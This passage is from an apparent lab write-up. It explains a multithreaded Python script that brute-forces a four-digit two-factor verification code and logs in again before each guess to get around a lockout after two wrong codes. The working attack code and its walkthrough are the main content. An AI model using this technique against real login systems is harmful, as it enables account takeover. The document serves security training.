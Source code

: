           # break the loop no need to start next threads
          if solved_flag:
              break         
          
          thread_list.clear()
          
      end_t = time()
      print("[-] Execution Time: %.5f seconds" % (end_t - start_t))          
    ```
        
    The main() function starts the nested for loop. The outer (i) loop is for the first digit, and the inner loop (j) is for the second digit of the 4-digits  verification code and it starts the multiple threads with each iteration and passes the i and j values to the brute_force_code() function, the inner loop starts 10 threads and then outer loop wait till the started threads completed, if verification code found then the loop breaks no further execution is needed OR the loop continues and start the next iteration of outer (i) loop.
    
  - **brute_force_code():** Each thread calls a function **brute_force_code(i, j)** with 2 parameters.
    ```
    def brute_force_code(i, j):
        global solved_flag        
        sn = requests.Session()
        
        for code in product('0123456789', repeat=2):
            if solved_flag:
                break
            c = str(i) + str(j) + code[0] + code[1]
            csrf = send_login_req(sn)
            
            res = sn.post(k_url + '/login2', {'csrf': csrf, 'mfa-code': c}, proxies=proxy_urls, verify=False)

            if "account-content" in res.text:
                print("[-] Solved! verification Code: ", c)
                solved_flag = True
                break
    ```
        
    This function send the requests, and the main points of this function are:
      1. The request object is created.
      2. For loop is used with product method to get last 2-digits of the 2-FA code, in each iteration before sending the verification code the program calls **send_login_req()** function first and sends 3 requests to the login page and logged-in the user again because, after every 2 incorrect verification codes, the lab needs to login again then enter the verification code, so to avoid this redirection i sent login request before each code verification request.
      4. The **get_csrf()** function is used to extract **CSRF** from responses. 
      5. If the response is true then **solved_flag** is updated and breaks the loop, and this **solved_flag** value is also checked in the main() function to break the main() loop, and no further requests are needed. 
       
    <br>
### 4. **Results:**
  Table shows the result of the lab, but time also depends on the code range.
